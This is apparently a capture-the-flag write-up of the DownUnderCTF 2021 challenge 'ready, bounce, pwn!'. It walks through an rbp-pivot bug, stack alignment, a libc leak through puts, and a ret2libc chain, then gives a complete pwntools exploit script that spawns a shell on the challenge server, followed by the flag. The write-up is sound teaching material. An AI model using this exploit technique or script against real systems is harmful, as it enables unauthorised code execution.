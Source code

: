 # ready, bounce, pwn!

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/1.png)

Check the file

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/2.png)

Let reverse it

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/3.png)

This is the main function, program call `read()` to get input to buffer, and than call `read_long`

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/4.png)

`Read_long` function call read to buf and them call atol

If you only look to the psuedo code, it just a normal program, no bug. But when I see in the assembly code, I found one thing.

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/5.png)

After call read_long, program call instruction add rbp, rax with rax is the return of atol.

Let look to the stack and see what we can do?

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/6.png)

The red border is the stack we can control de value on it, the first is fread() in read_long, the second is the fread() in main. Rbp pointer in main now is 0x7fffffffdeb0.

Author give me the libc, so it might be useful for ret2libc. The chall is look simply easy, because no PIE, we can use the puts_plt to leak the address of libc. We only control 3 continues block. But the pop_rdi, address, puts, return will need 4 block.

We can not use payload pop_rdi,address, return to return to the main and use the printf function to leak libc because we will lost the rbp control.

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/7.png)

For example, if you want to puts 3 block payload in 0x7fffffffde90, 0x7fffffffde98, 0x7fffffffdea0, you need to add the rbp to reach 0x7fffffffde88, and will pop rbp = 0x40123e

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/8.png)

Actually, this way can still be successful because the rbp pop value at 0x7fffffffde88 is the return address to main, is a fixed address, and we can still add rbp to return the correct payload next time. However, the server system running the challenge is ubuntu 64 bit, it requires before calling printf rsp % 0xff = 0 (align in 16 byte padding). So if we do like above, the rsp when we call printf is 0x7fffffffdea8 not align, so the program will catch segment fault.

So because of that, we will need a 4 block payload for the program to not have segment fault.

My solution is recall the function main in the payload to get 4 block payload control.

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/9.png)

Look at the stack, what happen ip we push the `main` address at 0x7fffffffde70 and add the rbp to reach 0x7fffffffde68? 

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/10.png)

When the program call leave, ret, the rbp will be set to = 0x00000a3131313131

And the the rsp now is 0x7fffffffde78 (not allign), but after we ret to the main function, we have two instruction `push rbp` and `mov rbp, rsp`

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/11.png)

So after the push instruction rsp now is 0x7fffffffde80  (allign) and the rbp will now equals 0x7fffffffde80 too. The different between call and ret, that is call will push the return address to the stack (so the stack will push 2 times), and ret is trush push 1 time. 

So now we are in main and look at the red and green block in image, you see what special? The red block is the second block of 3 previous `read_long()` block. And it is the block we can put in what ever we want on it (block 3 need to put main address, and block 1 need to push a string to add to rbp). 

So now we have 4 block payload (3 block in `main()` and 1 last block in previous `read_long()`), we can use the payload pop_rdi, address, puts, ret to leak the libc and return to main to reuse the vulnerabilities again. 

Note that the ret we use in 4 block payload is main address, but after the `push rbp` instruction, because we will need the instruction `mov rbp, rsp` (to restore rbp), but the `push rbp` will make the rsp not allign.

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/12.png)

Yah now we comback to function again, but now we already have libc leak, so we just have to put the payload pop_rdi, /bin/sh, system and add the rbp to get shell.

## Final exploit
  - First, input payload offset, main_after_push, main by read in `read_long()`, main address only need last 3 byte so we can easily put in

  - Second, now program return to main function, we puts 3 block of payload pop_rdi, got_address, puts to cocat with last block main_after_push to leak libc and return to main again.

  - Third, use libc leak to calculate the address of system, /bin/sh and get the shell

Note that the third payload only need 3 block and no get segment fault. Why? It really easy, just think about it :v. I already mentioned above :v

File [solve.py](/2021/DownUnderCTF2021/ready,bounce,pwn!/solve.py)

```python
from pwn import *
#s = process('./rbp')
s = remote('pwn-2021.duc.tf', 31910)
#raw_input('DEBUG')
pop_rdi = 0x00000000004012b3
ret = 0x000000000040101a
puts_got = 0x0000000000404018
puts_plt = 0x0000000000401030
puts_offset = 0x809d0
system_offset = 0x04fa60
bin_sh_offset = 0x1abf05
main = 0x00000000004011d5
main_not_push = 0x00000000004011d6
s.sendafter(b'name? ', b'Cobra')
s.sendafter(b'number? ', b'-72\x00\x00\x00\x00\x00' + p64(main_not_push) + p64(main)[:3])
payload = p64(pop_rdi) + p64(puts_got) + p64(puts_plt)
s.sendafter(b'name? ', payload)
s.sendafter(b'number? ', b'-40\x00\x00\x00\x00\x00')
puts_leak = int.from_bytes(s.recv(6).strip(), byteorder = 'little', signed = False)
libc_base = puts_leak - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
payload = p64(pop_rdi) + p64(bin_sh) + p64(system)
s.sendafter(b'name? ', payload)
s.sendafter(b'number? ', b'-40\x00\x00\x00\x00\x00')
s.interactive()
```

![](/2021/DownUnderCTF2021/ready,bounce,pwn!/images/13.png)

`flag: DUCTF{n0_0verfl0w?_n0_pr0bl3m!}`
